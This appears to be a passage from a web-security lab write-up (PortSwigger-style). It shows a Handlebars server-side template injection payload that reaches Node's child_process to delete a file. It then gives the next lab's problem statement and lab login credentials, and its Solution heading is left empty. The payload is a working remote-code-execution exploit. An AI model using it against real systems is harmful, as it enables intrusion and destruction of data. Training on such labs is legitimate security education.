 Url-encode this payload for resolution: 

```
{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}  
```


## Server-side template injection with information disclosure via user-supplied objects

### Enunciation

This lab is vulnerable to server-side template injection due to the way an object is being passed into the template. This vulnerability can be exploited to access sensitive data.

To solve the lab, steal and submit the framework's secret key.

You can log in to your own account using the following credentials:

`content-manager:C0nt3ntM4n4g3r`

### Solution

